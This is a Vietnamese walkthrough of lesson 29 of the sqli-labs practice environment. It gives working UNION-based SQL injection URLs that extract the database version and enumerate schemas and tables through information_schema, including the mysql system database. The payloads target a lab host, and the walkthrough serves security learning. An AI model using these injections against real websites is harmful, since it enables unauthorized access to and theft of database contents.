






# Những việc làm được với lesson-29
Việc check xem nó là dạng DB gì thì làm giống như những lesson trước. Ta sẽ sử dụng command `nmap`

Sau khi đăng nhập vào lesson-29



Đề bài yêu cầu nhập id. Và sau khi nhập id thì đề bài đã đưa ra kết quả như sau. đây là user và password. Khi nhập id thì đã có thông tin được truy xuất dữ liệu ra bên ngoài. Rất có thể ta sử dụng được `select` và `union`  


Vì thế nên tôi bắt đầu đi tìm cấu trúc truy vấn của nó. Và sau đó tôi tìm được cấu trúc như sau.

```
192.168.80.225/sqli-labs/Less-29/?id=0'union select 1,version(),database() --+
```



Với cấu trúc như vậy ta có thể làm được rất nhiều thứ với nó 

1. Show tất cả các DB có trong hệ cơ sở dữ liệu 

```
192.168.80.225/sqli-labs/Less-29/?id=1' union select 1,2,group_concat(SCHEMA_NAME) from information_schema.schemata limit 1,1 --+
```



2. Show tất cả các bảng của từng DB một

```
192.168.80.225/sqli-labs/Less-29/?id=1'  union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security' limit 1,1 --+
```



3. Show tất cả các bảng của DB mysql

```
192.168.80.225/sqli-labs/Less-29/?id=1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='mysql' limit 1,1 --+
```



4. Show tất cả các bảng của DB challenges

```
192.168.80.225/sqli-labs/Less-29/?id=1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='challenges' limit 1,1 --+
```



Tương tự lần lượt thì ta có thể tìm được hết cấu trúc của DB này 

